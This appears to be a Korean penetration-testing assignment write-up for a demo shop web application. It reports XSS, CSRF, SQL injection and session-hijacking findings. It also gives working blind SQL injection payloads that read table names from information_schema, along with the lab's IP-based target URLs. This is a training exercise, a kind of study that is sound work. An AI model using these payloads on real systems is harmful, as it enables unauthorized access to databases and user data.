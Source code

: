 # Penetration-Testing1

과제1) 모든 취약점 찾기
1. Quick Search창에서의 XSS 취약점
<script>alert("xss")</script>를 대입하였을때 동작함.
![image](https://user-images.githubusercontent.com/82012857/176285510-f6908bb4-5a26-4577-a64b-77c077e90c5c.png)

2. Board에서의 CSRF 취약점
1번과 마찬가지로 HTML로 글 작성시 XSS에 반응하여 CSRF 취약점이 있다는 것을 알 수 있음.
![image](https://user-images.githubusercontent.com/82012857/176285525-016dce9f-44fa-4034-bc10-b012649fceb3.png)

3. 입력창에서의 SQL injection
거의 모든 입력창에 대해서 비정상적인 SQL구문에 대해서 답을 함 
![image](https://user-images.githubusercontent.com/82012857/176285549-6b1343a9-c8ba-42c1-869b-b8a75733aae4.png)

4. 쿠키값 탈취로 사용자 세션 하이재킹(?)
![image](https://user-images.githubusercontent.com/82012857/176285565-aaab7a95-8eba-4f7a-b0ce-372202f42513.png)

과제2) information_schema.table를 활용해서 첫번째 테이블과 두번째 테이블 이름 찾기(검색이 필요)

1. 주소찾기에서 blind SQL injection을 통해 한글자씩 검색한 결과 첫번째 테이블은 9글자의 order_man이라는 결과를 얻었다.

SQL 구문
' or substring((select top 1 table_name  from information_schema.tables),1,1) = 'o' --
' or (select top 1 LEN(table_name)  from information_schema.tables) = 9 --
' or (select top 1 table_name  from information_schema.tables) = 'order_man' -- 

첫번째 테이블 답: order_man

2. 첫번째 테이블인 order_man을 where문에 not in하여 top1을 하면 두번째 테이블에 대해 검색할 수 있다. 그 후 첫번째 테이블과 동일한 방식으로 검색한 결과 5글자의 paper이라는 결과를 얻었다.

SQL 구문
' or substring((select top 1 table_name  from information_schema.tables where table_name not in ('order_man')),1,1) = 'p' --
p q r s t 
' or (select top 1 LEN(table_name)  from information_schema.tables where table_name not in ('order_man')) = 5 --
' or (select top 1 table_name  from information_schema.tables where table_name not in ('order_man')) = 'paper' -- 

두번째 테이블 답: paper

http://61.39.155.24:50003/demoshop/shop/shop_main.asp
http://61.39.155.24:50003/demoshop/login/findNewaddr.asp
